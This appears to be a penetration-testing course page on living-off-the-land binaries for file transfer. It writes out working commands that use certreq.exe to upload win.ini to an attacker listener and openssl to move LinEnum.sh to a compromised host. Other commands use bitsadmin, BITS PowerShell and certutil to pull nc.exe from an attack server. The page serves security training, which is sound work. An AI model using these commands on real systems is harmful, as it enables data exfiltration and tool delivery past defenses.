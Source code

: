 # Living off The Land

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

## LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (37).png" alt=""><figcaption></figcaption></figure>

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

### **Upload win.ini to our Pwnbox**

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

```shell-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```shell-session
al1abb@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

## GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (38).png" alt=""><figcaption></figcaption></figure>

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### **Create Certificate in our Pwnbox**

We need to create a certificate and start a server in our Pwnbox.

```shell-session
al1abb@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### **Stand up the Server in our Pwnbox**

```bash
al1abb@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

### **Download File from the Compromised Machine**

Next, with the server running, we need to download the file from the compromised machine.

```bash
al1abb@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools:

## Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

### **File Download with Bitsadmin**

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

### **Download**

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

### **Download a File with Certutil**

```shell-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

